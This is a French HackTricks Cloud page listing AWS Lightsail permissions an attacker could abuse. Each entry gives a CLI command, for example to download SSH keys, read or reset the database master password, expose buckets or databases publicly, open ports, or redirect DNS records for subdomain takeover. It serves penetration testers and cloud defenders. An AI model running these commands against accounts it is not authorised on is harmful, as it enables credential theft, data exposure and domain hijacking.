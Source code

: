 # AWS - Élévation de privilèges Lightsail

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-moi** sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Lightsail

Pour plus d'informations sur Lightsail, consultez :

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Il est important de noter que Lightsail **n'utilise pas les rôles IAM appartenant à l'utilisateur** mais à un compte géré par AWS, donc vous ne pouvez pas abuser de ce service pour une élévation de privilèges. Cependant, des **données sensibles** telles que le code, les clés API et les informations de base de données pourraient être trouvées dans ce service.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Cette permission vous permettra d'obtenir les clés SSH pour accéder aux instances :
```
aws lightsail download-default-key-pair
```
**Impact potentiel :** Trouver des informations sensibles à l'intérieur des instances.

### `lightsail:GetInstanceAccessDetails`

Cette permission vous permettra de générer des clés SSH pour accéder aux instances :
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Impact potentiel :** Trouver des informations sensibles à l'intérieur des instances.

### `lightsail:CreateBucketAccessKey`

Cette permission vous permettra d'obtenir une clé pour accéder au bucket :
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Impact potentiel :** Trouver des informations sensibles à l'intérieur du bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Cette permission vous permettra d'obtenir les identifiants pour accéder à la base de données :
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Impact potentiel :** Trouver des informations sensibles à l'intérieur de la base de données.

### `lightsail:UpdateRelationalDatabase`

Cette permission vous permettra de changer le mot de passe pour accéder à la base de données :

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Si la base de données n'est pas publique, vous pourriez également la rendre publique avec ces permissions avec

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Impact potentiel :** Trouver des informations sensibles à l'intérieur de la base de données.

### `lightsail:OpenInstancePublicPorts`

Cette permission permet d'ouvrir des ports vers Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Impact potentiel :** Accès aux ports sensibles.

### `lightsail:PutInstancePublicPorts`

Cette permission permet d'ouvrir des ports vers Internet. Notez que l'appel fermera tout port ouvert non spécifié dans celui-ci.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Impact potentiel :** Accès à des ports sensibles.

### `lightsail:SetResourceAccessForBucket`

Cette permission permet de donner à une instance l'accès à un bucket sans informations d'identification supplémentaires

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Impact potentiel :** Nouvel accès potentiel à des buckets contenant des informations sensibles.

### `lightsail:UpdateBucket`

Avec cette permission, un attaquant pourrait accorder à son propre compte AWS un accès en lecture sur des buckets ou même rendre les buckets publics pour tout le monde :
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Impact potentiel :** Nouvel accès potentiel à des compartiments contenant des informations sensibles.

### `lightsail:UpdateContainerService`

Avec cette permission, un attaquant pourrait accorder l'accès à des ECR privés depuis le service de conteneurs
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Impact potentiel :** Obtenir des informations sensibles à partir d'ECR privé

### `lightsail:CreateDomainEntry`

Un attaquant avec cette permission pourrait créer un sous-domaine et le rediriger vers sa propre adresse IP (prise de contrôle de sous-domaine), ou créer un enregistrement SPF lui permettant de falsifier des e-mails provenant du domaine, ou même définir l'adresse IP principale du domaine sur sa propre adresse IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impact potentiel :** Prise de contrôle d'un domaine

### `lightsail:UpdateDomainEntry`

Un attaquant disposant de cette permission pourrait créer un sous-domaine et le rediriger vers sa propre adresse IP (prise de contrôle de sous-domaine), ou créer un enregistrement SPF lui permettant de falsifier des e-mails provenant du domaine, ou même associer le domaine principal à sa propre adresse IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impact Potentiel :** Prise de contrôle d'un domaine

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
